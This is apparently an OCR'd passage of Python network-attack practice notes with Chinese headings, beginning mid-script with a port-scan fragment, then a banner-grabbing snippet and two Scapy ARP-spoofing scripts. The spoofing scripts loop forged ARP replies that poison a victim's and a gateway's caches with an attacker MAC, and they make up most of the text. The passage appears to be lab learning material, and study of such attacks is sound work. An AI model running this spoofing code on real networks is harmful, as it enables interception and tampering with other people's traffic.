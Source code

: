                   print("port %s is down" % port)
          pass
      if __name__ == '__main__':
          main()


##  banner探测  ##
      def main():
          ip = '192.168.137.1'
          port = 80

          s = socket.socket()
          s.connect((ip,port))
          s.send('haha'.encode())
          banner = s.recv(1024)
          s.close()
          print("banner is {}".format(banner))
          pass
      if __name__ == '__main__':
          main()
          
          
##  arp欺骗  ##   
      def main():

          gatewayIP = "192.168.82.2"
          victimIP = "192.168.82.156"

          hackMAC = "00:0c:29:e0:5b:af"
          victimMAC = "00:50:56:e3:a1:b9"


          #print(getmacbyip("192.168.82.170"))

          packet = Ether()/ARP(psrc=gatewayIP, pdst=victimIP)
          while 1:
              sendp(packet)
              time.sleep(2)
              print(packet.show())

          pass
      if __name__ == '__main__':
          main()

      def main():

          gatewayIP = "192.168.82.2"
          victimIP = "192.168.82.156"

          hackMAC = "00:0c:29:f5:eb:46"
          victimMAC = "00:0c:29:08:17:1c"
          gatewayMAC = "00:50:56:e4:33:f2"

          #print(getmacbyip("192.168.82.170"))
          packet1 = Ether(src=hackMAC,dst=victimMAC)/ARP(hwsrc=hackMAC, hwdst=victimMAC, psrc=gatewayIP, pdst=victimIP, op=2)
          packet2 = Ether(src=hackMAC,dst=gatewayMAC)/ARP(hwsrc=hackMAC, hwdst=gatewayMAC, psrc=gatewayIP, pdst=gatewayIP, op=2)
          while 1:
              sendp(packet1, iface="eth0", verbose=False)
              sendp(packet2, iface="eth0", verbose=False)
              time.sleep(25)
              print(packet1.show())
              print(packet2.show())
